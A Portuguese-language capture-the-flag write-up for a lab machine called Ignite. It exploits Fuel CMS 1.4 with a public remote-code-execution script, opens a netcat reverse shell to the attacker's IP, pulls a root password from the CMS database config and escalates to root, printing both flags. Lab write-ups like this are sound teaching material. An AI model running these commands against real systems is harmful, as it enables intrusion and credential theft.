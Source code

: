 # Ignite

## User.txt

- [http://10.10.23.142](http://10.10.23.142/)
    - Welcome to Fuel CMS
    - Version 1.4
- [https://www.exploit-db.com/](https://www.exploit-db.com/)
    - Pesquise por Fuel CMS
- Estou usando o
    - [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)
- Entao arrumei o ip para correnpoder ao que preciso
    
    ```bash
    python3 50477.py -u http://10.10.17.169/
    ```
    
- Antes de usar o comando no shell que abrimos vamos abrir uma porta
    
    ```bash
    sudo nc -nvlp 777 -s 10.8.154.250
    ```
    
- Como nao temos muito acesso, vamos usar como busybox
- Entao vamos usar o comando
    - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#netcat-busybox](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-busybox)
    
    ```bash
    rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.154.250 777 >/tmp/f
    ```
    
- Como nao estamos com um bash exatamente
    - [https://rcenetsec.com/shell-spawning/](https://rcenetsec.com/shell-spawning/)
    
    ```bash
    python -c 'import pty; pty.spawn("/bin/sh")'
    ```
    
- flag.txt
    
    ```bash
    cat /home/www-data/flag*
    ```
    
- `6470e394cbf6dab6a91682cc8585059b`

## Root.txt

```bash
cat /var/www/html/fuel/application/config/data*
```

> 'hostname' => 'localhost',
'username' => 'root',
'password' => 'mememe',
> 

```bash
su root
mememe
cat /root/root*
```

- `b9bbcb33e11b80be759c4e844862482d`
